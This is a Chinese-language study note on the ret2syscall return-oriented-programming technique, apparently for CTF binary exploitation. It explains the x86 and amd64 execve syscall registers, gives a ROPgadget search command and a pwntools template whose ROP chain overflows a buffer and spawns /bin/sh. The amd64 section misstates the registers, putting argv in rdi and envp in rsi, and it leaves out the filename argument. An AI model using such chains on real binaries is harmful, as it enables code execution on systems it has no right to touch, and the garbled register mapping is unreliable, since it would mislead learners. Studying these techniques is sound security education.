 

# 返回导向编程（ROP）

## ret2syscall

> 条件：ROPgadget能够获取到足够的pop ret

- x86通过int 0x80指令进行系统调用，amd64通过syscall进行系统调用

  > eax传入系统调用号，ebx、ecx、edx传三个参数，int 0x80执行系统调用
  >
  > ```python
  > mov eax, 0xb
  > mov ebx, ["/bin/sh"]
  > mov ecx, 0
  > mov edx, 0
  > int 0x80
  > 
  > => execve("/bin/sh", NULL,NULL)0
  > ```

  > 在AMD64（x86-64）架构中，执行 `execve` 系统调用需要使用以下寄存器和参数：
  >
  > 1. **寄存器使用**：
  >    - `rax`：存放系统调用号。对于 `execve` 系统调用，`rax` 的值应该是 `0x3b`，即59（十进制）。
  >    - `rdi`：存放指向以null结尾的字符串数组的指针，即参数 `char *const argv[]`。这些字符串用于传递给新程序作为其命令行参数。
  >    - `rsi`：存放指向以null结尾的环境字符串数组的指针，即参数 `char *const envp[]`。这些字符串用于传递给新程序作为其环境变量。
  > 2. **参数传递**：
  >    - `rdi`：应该是一个指针，指向一个以null结尾的字符串数组，数组中的每个字符串是新程序的命令行参数。通常这个数组的第一个元素是被执行程序的名称。
  >    - `rsi`：同样是一个指针，指向一个以null结尾的字符串数组，数组中的每个字符串是新程序的环境变量。

![image-20240623105219487](C:/Users/HP/AppData/Roaming/Typora/typora-user-images/image-20240623105219487.png)

- gadget

  > ```shell
  > ROPgadget --binary PWN1  --only 'pop|ret' | grep 'edx'
  > ```
  >
  
- 示例exploit

  ```python
  from pwn import *
  
  io = process("")
  
  pop_eax_ret = 0x0000
  pop_edx_ecx_ebx_ret = 0x0123123
  int_80h = 0x031203
  bin_sh = 0x123123
  
  payload = flat([b'A'*112, pop_eax_ret, 0xb, pop_edx_ecx_ebx_ret, 0, 0, bin_sh, int_80h])
  io.sendline(payload)
  io.interactive()
  ```
